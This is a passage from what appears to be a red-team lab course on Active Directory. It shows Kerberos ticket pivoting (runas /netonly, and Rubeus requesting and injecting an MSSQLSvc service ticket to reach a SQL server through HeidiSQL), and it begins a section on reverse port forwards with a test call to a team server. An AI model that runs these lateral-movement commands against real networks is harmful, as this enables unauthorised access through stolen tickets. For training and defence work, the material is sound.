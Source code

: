 ```
PS C:\Users\Attacker> runas /netonly /user:dev.cyberbotic.io\bfarmer powershell.exe
Enter the password for dev.cyberbotic.io\bfarmer: FakePass
```

3. The spawned process will have no Kerberos tickets in its cache.

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (0)
```

4. This method of pivoting prefers the presence of the correct service ticket(s) up front, rather than relying on a single TGT in the cache.  If we want to access the SQL-2 service through HeidiSQL then we need a service ticket for the MSSQLSvc service.  Let's use the TGT of bfarmer to do that (yes, requesting tickets through the proxy works as well).

```
PS C:\Windows\system32> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:doIFzj[...snip...]MuSU8= /service:MSSQLSvc/sql-2.dev.cyberbotic.io:1433 /dc:dc-2.dev.cyberbotic.io /ptt
```

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x260072

Cached Tickets: (1)
```

5. Launch HeidiSQL from the same powershell window.

```
PS C:\Windows\system32> C:\Tools\HeidiSQL\heidisql.exe
```

Set the target hostname to _sql-2.dev.cyberbotic.io_ and connect.

![](https://files.cdn.thinkific.com/file_uploads/584845/images/607/fd7/b78/heidi.png)


## Reverse Port Forwards

---

Reverse Port Forwarding allows a machine to redirect inbound traffic on a specific port to another IP and port.  A useful implementation of this allows machines to bypass firewall and other network segmentation restrictions, to talk to nodes they wouldn't normally be able to.

For example, we can use the console of **Domain Controller 2** to demonstrate that it does not have any outbound access to our team server.

```
PS C:\Users\Administrator> hostname
dc-2

PS C:\Users\Administrator> iwr -Uri http://nickelviper.com/a
iwr : Unable to connect to the remote server
```

